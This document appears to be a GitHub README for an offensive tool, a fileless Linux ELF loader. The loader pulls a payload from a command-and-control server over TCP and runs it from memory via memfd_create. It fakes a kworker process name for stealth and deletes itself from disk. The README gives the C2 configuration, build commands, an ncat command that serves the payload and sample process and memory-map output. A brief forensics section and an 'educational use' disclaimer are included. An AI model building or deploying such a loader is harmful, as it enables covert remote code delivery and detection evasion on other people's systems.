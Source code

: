 
## Fileless In-Memory Loader Linux 

This tool implements a fileless, in-memory ELF loader for Linux systems. It connects to a remote C2 (Command & Control) server over TCP, downloads a raw ELF payload, and executes it entirely from memory using memfd_create().

> ⚠️ **For educational and authorized use only.** Do not use on systems you do not own or have explicit permission to operate on.

### Key Features
 * Uses memfd_create() to create a memory-backed, executable file descriptor
 * Pulls payload from a configurable C2 IP and port over a socket connection
 * Executes the ELF binary directly from memory via /proc/self/fd/<fd>
 * Applies a fake process name (argv[0]) for stealth in `ps`, `top`, etc.
 * Deletes itself from disk (via unlink("/proc/self/exe")) after execution
 * Leaves no payload or loader trace on the filesystem after startup

### Configuration

Inside `loader.c`, you can configure the following parameters:

```c
const char *C2_IP        = "127.0.0.1";       // C2 IP
const int   C2_PORT      = 1111;              // C2 port
const char *FAKE_PROC    = "[kworker/u!0]";   // Shown in `ps` output
const char *FD_NAME      = "error";          // Shown in `cat /proc/<pid>/maps` as [memfd:error (deleted)]
````

### Usage

1. Compile the Loader

```bash
gcc -o loader loader.c
gcc -o payload.elf test-payload.c
```

2. Start the C2 (e.g., Netcat)

```bash
ncat -lvnp 1111 < payload.elf
```

3. Run the Loader

```bash
./loader
```

If successful:

* The loader deletes itself
* The payload executes in memory
* The process appears with the fake name (`[kworker/u!0]`)
* Nothing is left on disk

## Forensics traces

```bash
$ ps aux | grep kworker
root      1233  0.0  0.0   2196  1200 ?        Ss   13:47   0:00 [kworker/0:1-events]
root      1235  0.0  0.0   3040  1428 pts/2    S+   13:47   0:00 grep kworker
$ cat /proc/1233/maps | grep memfd
00400000-00401000 r-xp 00000000 00:01 1025                               /memfd:error (deleted)
0041f000-00420000 r--p 0000f000 00:01 1025                               /memfd:error (deleted)
00420000-00421000 rw-p 00010000 00:01 1025                               /memfd:error (deleted)
```
